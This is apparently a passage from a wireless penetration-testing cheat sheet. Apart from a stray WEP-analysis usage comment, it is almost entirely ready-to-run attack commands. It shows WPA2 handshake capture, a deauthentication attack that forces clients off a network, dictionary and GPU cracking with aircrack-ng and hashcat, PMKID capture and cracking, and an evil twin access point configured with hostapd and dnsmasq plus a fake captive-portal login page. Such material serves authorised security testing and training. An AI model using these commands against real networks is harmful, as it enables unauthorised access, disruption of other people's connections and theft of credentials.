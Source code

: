 ```python

# Usage
# wep = WEPAnalysis()
# wep.weak_iv_analysis()
# wep.key_recovery_estimate()
```

### WPA/WPA2 Attacks

#### WPA2 Handshake Capture and Cracking
```bash
# Capture WPA2 handshake
airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w wpa2_handshake wlan0mon

# Deauthentication attack to force handshake
aireplay-ng -0 5 -a AA:BB:CC:DD:EE:FF wlan0mon

# Verify handshake capture
aircrack-ng wpa2_handshake-01.cap

# Dictionary attack
aircrack-ng -w /usr/share/wordlists/rockyou.txt wpa2_handshake-01.cap

# GPU-accelerated cracking with Hashcat
hashcat -m 2500 wpa2_handshake.hccapx /usr/share/wordlists/rockyou.txt

# Convert cap to hccapx format
cap2hccapx.bin wpa2_handshake-01.cap wpa2_handshake.hccapx
```

#### WPA2 PMKID Attack
```bash
# Capture PMKID without handshake
hcxdumptool -o pmkid_capture.pcapng -i wlan0mon --enable_status=1

# Extract PMKID hash
hcxpcaptool -z pmkid_hash.txt pmkid_capture.pcapng

# Crack PMKID with Hashcat
hashcat -m 16800 pmkid_hash.txt /usr/share/wordlists/rockyou.txt
```

#### Evil Twin Attack
```bash
# Create fake access point
hostapd /etc/hostapd/hostapd.conf

# hostapd.conf configuration
interface=wlan0
driver=nl80211
ssid=FreeWiFi
hw_mode=g
channel=6
auth_algs=1
wpa=2
wpa_passphrase=password123
wpa_key_mgmt=WPA-PSK
wpa_pairwise=CCMP

# DHCP server configuration
dnsmasq --interface=wlan0 --dhcp-range=192.168.1.2,192.168.1.30,255.255.255.0,12h

# Captive portal setup
# Redirect all HTTP traffic to fake login page
```